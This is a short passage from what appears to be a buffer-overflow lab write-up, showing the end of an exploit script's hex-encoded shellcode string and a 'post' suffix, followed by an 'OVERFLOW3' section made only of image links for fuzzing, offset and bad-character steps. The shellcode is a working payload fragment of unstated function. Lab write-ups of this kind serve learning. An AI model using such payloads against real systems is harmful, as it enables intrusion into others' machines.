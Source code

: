 ```
"\x61\x05\x12\xc0\x99\x92\x45\x85\x6c\xeb\x03\x3b\xd6\x45\x31"
"\xc6\x8e\xae\xf1\x1d\x73\x30\xf8\xd0\xcf\x16\xea\x2c\xcf\x12"
"\x5e\xe1\x86\xcc\x08\x47\x71\xbf\xe2\x11\x2e\x69\x62\xe7\x1c"
"\xaa\xf4\xe8\x48\x5c\x18\x58\x25\x19\x27\x55\xa1\xad\x50\x8b"
"\x51\x51\x8b\x0f\x71\xb0\x19\x7a\x1a\x6d\xc8\xc7\x47\x8e\x27"
"\x0b\x7e\x0d\xcd\xf4\x85\x0d\xa4\xf1\xc2\x89\x55\x88\x5b\x7c"
"\x59\x3f\x5b\x55\x59\xbf\xa3\x56")
post = "\r\n"
```
## OVERFLOW3
![of3fuzz](assets/markdown-img-paste-20210904091028397.png)

![of3offset](assets/markdown-img-paste-2021090409115744.png)

![of3badchars1](assets/markdown-img-paste-20210904091358818.png)
